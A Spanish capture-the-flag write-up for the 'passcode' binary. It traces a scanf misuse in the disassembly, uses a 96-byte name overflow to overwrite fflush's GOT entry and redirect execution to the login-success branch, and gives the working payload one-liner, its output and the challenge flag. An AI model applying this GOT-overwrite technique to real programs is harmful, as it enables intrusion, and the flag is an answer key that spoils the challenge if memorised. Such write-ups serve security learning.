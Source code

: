 # passcode

![passcode](https://github.com/user-attachments/assets/138a1353-14a6-4f81-a6d1-5619ea7f3394)

La cadena `name` se almacena en `ebp-0x70`:
```
   0x08049324 <+50>:	lea    eax,[ebp-0x70]                     <----
   0x08049327 <+53>:	push   eax
   0x08049328 <+54>:	lea    eax,[ebx-0x1f8b]
   0x0804932e <+60>:	push   eax
   0x0804932f <+61>:	call   0x80490d0 <__isoc99_scanf@plt>
   0x08049334 <+66>:	add    esp,0x10
   0x08049337 <+69>:	sub    esp,0x8
   0x0804933a <+72>:	lea    eax,[ebp-0x70]
   0x0804933d <+75>:	push   eax
   0x0804933e <+76>:	lea    eax,[ebx-0x1f85]
   0x08049344 <+82>:	push   eax
   0x08049345 <+83>:	call   0x8049050 <printf@plt>            <----
   0x0804934a <+88>:	add    esp,0x10
```

Y `passcode1`, `passcode2` se almacenan en `ebp-0x10` y `ebp-0xc` respectivamente:
```
   0x0804921e <+40>:	push   DWORD PTR [ebp-0x10]
   0x08049221 <+43>:	lea    eax,[ebx-0x1fe5]
   0x08049227 <+49>:	push   eax
   0x08049228 <+50>:	call   0x80490d0 <__isoc99_scanf@plt>
   0x0804922d <+55>:	add    esp,0x10
   0x08049230 <+58>:	mov    eax,DWORD PTR [ebx-0x4]
   0x08049236 <+64>:	mov    eax,DWORD PTR [eax]
   0x08049238 <+66>:	sub    esp,0xc
   0x0804923b <+69>:	push   eax
   0x0804923c <+70>:	call   0x8049060 <fflush@plt>
   0x08049241 <+75>:	add    esp,0x10
   0x08049244 <+78>:	sub    esp,0xc
   0x08049247 <+81>:	lea    eax,[ebx-0x1fe2]
   0x0804924d <+87>:	push   eax
   0x0804924e <+88>:	call   0x8049050 <printf@plt>
   0x08049253 <+93>:	add    esp,0x10
   0x08049256 <+96>:	sub    esp,0x8
   0x08049259 <+99>:	push   DWORD PTR [ebp-0xc]
   0x0804925c <+102>:	lea    eax,[ebx-0x1fe5]
   0x08049262 <+108>:	push   eax
   0x08049263 <+109>:	call   0x80490d0 <__isoc99_scanf@plt>
```

En la entrada del nombre se consumen 100 bytes, `0x70-0x10=0x60=96` asi que los ultimos 4 bytes pueden sobreescribir `passcode1`.

Los `scanf` de los passcodes estan mal implemntados:
``` C
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);
```

El segundo parametro deberia ser la direccion de memoria del passcode, o sea deberia usarse `&` como operador de desreferencia, sin embargo aqui se esta escribiendo `en la direccion de memoria cuyo valor contiene passcode`

Luego del `scanf` de `passcode1` se hace una llamada a `fflush`, lo que tenemos que hacer es sobreescribir el contenido de `passcode1` con la direccion de `fflush` en la GOT y luego con esta vulnerabilidad en `scanf` escribir la direccion real a la que apunta `fflush` en la GOT.

Por alguna razon pwngdb estaba fallando y no pude ejecutar el programa, asi que obtuve la direccion de `fflush` en la GOT con objdump:
```
passcode@ubuntu:~$ objdump -R passcode | grep fflush
0804c014 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

```
...
   0x0804926b <+117>:	sub    esp,0xc
   0x0804926e <+120>:	lea    eax,[ebx-0x1fcf]
   0x08049274 <+126>:	push   eax
   0x08049275 <+127>:	call   0x8049090 <puts@plt>
   0x0804927a <+132>:	add    esp,0x10
   0x0804927d <+135>:	cmp    DWORD PTR [ebp-0x10],0x1e240
   0x08049284 <+142>:	jne    0x80492ce <login+216>
   0x08049286 <+144>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x0804928d <+151>:	jne    0x80492ce <login+216> 
   0x0804928f <+153>:	sub    esp,0xc                              <--- Queremos saltar aqui. donde el if se cumple y se imprime la flag
```

Como `scanf` acepta solo entrada numerica para `passcode1` tenemos que convertir esta direccion a un decimal con `python3 -c 'print(0x0804928f)'`

##### Resultado final:
```
passcode@ubuntu:~$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*96+b"\x14\xc0\x04\x08"+b"134517391")'|./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : Login OK!
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning
Now I can safely trust you that you have credential :)
```

`s0rry_mom_I_just_ign0red_c0mp1ler_w4rning`
